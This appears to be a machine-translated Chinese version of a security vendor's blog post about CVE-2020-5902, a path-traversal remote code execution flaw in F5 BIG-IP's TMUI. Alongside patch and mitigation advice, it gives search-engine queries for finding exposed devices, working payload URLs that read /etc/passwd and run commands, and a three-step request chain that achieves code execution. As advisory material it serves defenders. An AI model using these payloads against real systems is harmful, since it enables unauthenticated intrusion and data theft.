



# 如何使用 Pentest-Tools.com CVE-2020-5902(TMUI RCE)攻击 F5 BIG-IP

> 原文：<https://pentest-tools.com/blog/big-ip-tmui-rce>

让我们解决一个不仅在 BIG-IP 防火墙中，而且在社交媒体上爆发的漏洞！

当影响安全产品的重大问题出现时，它会立即成为头条新闻，这种矛盾的情况不容忽视。

在这种情况下，名声排在第二位。重要的是使用 BIG-IP 防火墙的组织努力修补和修复漏洞。网络犯罪分子总是以令人难以置信的速度移动，他们已经在利用这一点——特别是因为这样做出奇地容易。

请继续阅读，了解识别和修复此漏洞的实用步骤。让我们开始行动吧！

## **1。漏洞概述**

该问题出现在多个 BIG-IP 产品的流量管理用户界面(TMUI)功能中。TMUI 基本上是一个配置实用程序，允许经过身份验证的用户管理他们的产品并调整其设置。

但是研究人员发现了一种绕过身份验证的方法，并通过 URL 中的**单行有效载荷访问这些实用程序模块，允许攻击者在未经身份验证的情况下查看、删除、上传和执行未经授权的文件，这可能导致远程代码执行和整个设备受损。**

该漏洞立即获得了 10/10 的 CVSS 分数，并被标记为 [CVE-2020-5902](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-5902) 。

### **什么是 BIG-IP？**

BIG-IP 是一种多用途应用，可提供各种以应用为中心的服务，如流量管理、负载平衡、web 应用防火墙等。许多公司都在使用它，包括许多跨行业的财富 500 强企业。

有了这样一个高严重性的漏洞，你可以打赌攻击者的反应就像闻到水中血腥味的鲨鱼。

## **2。受影响的版本**

该问题存在于以下 BIG-IP 产品中:LTM、AAM、AFM、Analytics、APM、ASM、DNS、FPS、GTM、链路控制器、PEM。

您可以在这些 BIG-IP 产品版本中找到 [CVE-2020-5902](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-5902) :

*   15.0.0 通过 15.1.0.3

*   14.1.0 通过 14.1.2.5

*   13.1.0 通过 13.1.3.3

*   12.1.0 通过 12.1.5.1

*   通过 11.6.5.1

知道在 Linux 和 Windows 上运行的应用程序都容易受到攻击也很重要。

## **3。使用 Google Dorks 和 Shodan** 查找 BIG-IP 部署

您可以使用这些谷歌呆子搜索潜在易受攻击的 BIG-IP 部署:

inurl:"/my.policy "大 ip

Inurl:my.logout.php3？

inurl:/tmui/login.jsp/


或者这个对[庄丹](http://shodan.io/)的查询:

http . title:" BIG-IP®-Redirect "
(shod an 搜索查询返回了超过 8471 个可能有漏洞的 BIG-IP 实例。)

## **4。影响**

许多人错误地认为该漏洞只影响 BIG-IP 应用，但情况更糟，因为它对该产品背后的所有系统都有重大影响，导致**整个基础设施受损**。

### **检查系统是否易受攻击**

如果您想快速行动，检查您的系统是否因该漏洞而暴露，**我们刚刚发布了一款专用扫描器**:BIG-IP 漏洞扫描器[**(CVE-2020-5902)**](https://pentest-tools.com/network-vulnerability-scanning/network-security-scanner-online-openvas)。

您可以用最少的设置**快速扫描您的基础架构，节省数小时的手动工作。此外，你可以争取时间打补丁，并确保你是安全的机会主义网络攻击。**

### **根本原因**

从根本上说， [CVE-2020-5902](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-5902) 是一个路径遍历问题，使得攻击者能够访问 TMUI 功能内的实用程序模块。

情况和 2019 年 12 月 [CVE-2019-19781](https://nvd.nist.gov/vuln/detail/CVE-2019-19781) 公开披露的情况很像。在 Citrix ADC 和 Gateway 中发现的遍历漏洞也有可能导致远程代码执行。

**漏洞利用概述**

如果对这个漏洞的利用是复杂和模糊的，这个漏洞永远不会成为太多的头条新闻。它如此简单的事实使得它广受欢迎并被大量滥用——主要是被脚本小子滥用。

您自己也可以利用此漏洞，只需按照下面的语法创建一个请求负载即可:

**协议** :// **主机** / **UNAUTH_PAGE** ..；**TMUI _ 模块**

其中:

*   协议:http/https

*   主机:目标 IP 地址或主机名

*   un auth _ PAGE:TMUI 应用程序中的页面，您在该页面上获得了未经身份验证的访问权限(例如:/tmui/login.jsp/)

*   TMUI 模块:模块的完整路径，通过它你可以执行特定的操作(更多信息请参考下表)

像往常一样，我们喜欢让你的工作更容易，所以这里有一个表格，上面有 **TMUI 模块**以及如何利用它们的说明。

| **模块** | **剥削** | **有效载荷示例** |
| --- | --- | --- |
| 目录列表 | 列出通过*目录路径* URL 参数指定的文件夹中的文件 | https://HOST/tmui/login.jsp/..；/tmui/local lb/workspace/directory list。JSP？directoryPath=/tmp/ |
| 文件读取 | 读取通过*文件名* URL 参数指定的文件内容 | https://HOST/tmui/login.jsp/..；/tmui/local lb/workspace/fileread . JSP？文件名=/etc/passwd |
| 文件保存 | 使用 POST 方法上传通过*文件名* URL 参数指定的文件和通过*内容* URL 参数指定的文件内容。 | https://HOST/tmui/login.jsp/..；/tmui/local lb/workspace/file save . JSP？文件名=/tmp/测试&内容=测试 |
| tmshCmd | 通过*命令* URL 参数执行预定义的(基于他们的文档)系统命令 | https://HOST/tmui/login.jsp/..；/tmui/local lb/workspace/tmshcmd . JSP？命令=列表+验证+用户 |

## **5。实现 RCE 并带回家一个防火墙**

通过链接 *fileSave* 和 *tmshCmd* 实用模块，可以在 BIG-IP TMUI 上实现远程代码执行。

首先，您需要**发送这个有效负载**，以便能够执行 bash 命令:

```
https://HOST/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=create+cli+alias+private+list+command+bash (GET method)
```

接下来，您必须上传一个包含您想要在系统上执行的命令的文件:

```
https://HOST/tmui/login.jsp/..;/tmui/locallb/workspace/fileSave.jsp?fileName=/tmp/rce&content=whoami (POST method) - Here we uploaded the /tmp/rce file containing the whoami command.
```

最后，您必须**列出文件**，您将看到所执行命令的输出反映在文件内容中:

```
https://HOST/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+/tmp/rce

(GET method)
```

<template x-if="showVideo"></template>

### **在哪里可以找到一个有效的概念验证**

*哪里**找不到**你找一个？*

到目前为止，在 GitHub 上快速搜索至少返回了 435 个结果！



(GitHub 搜索 CVE-2020-5902 漏洞)

**还发布了一个 Metasploit 模块:**

 (CVE-2020-5902 Metasploit 模块)

## **6。如何修复 CVE-2020-5902**

最佳解决方案是**立即**将您的 BIG-IP 设备更新到这些版本或最新版本:

*   15.1.0.4+(针对 15.x 分支)

*   14.1.2.6+(针对 14.x 分支)/li >

*   13.1.3.4+(针对 13.x 分支)

*   12.1.5.2+(针对 12.x 分支)

*   11.6.5.2+(针对 11.x 分支)

此外，如果无法升级，您可以**应用低于**的缓解措施，这不会影响您的基础设施或应用程序性能。

通过 TSMH shell，发出此**命令***edit/sys httpd all-properties，*并在 *include 'none'* 行中插入以下**有效负载**:

*包含'*

*<位置匹配”。\.\.；.">*

*重定向 404 /*

*</位置匹配>【*

*'* 之后，使用此命令保存配置:*保存/系统配置*

上述变通办法阻止使用*的请求..；*待执行。

另一个最佳实践是**在防火墙级别拒绝所有对 TMUI 配置实用程序**的外部访问。

如果你觉得这个指南有帮助，请在下面的评论中告诉我们，或者与正在处理这个问题的同事或同行分享。你可能会让他们的一天变得更容易忍受！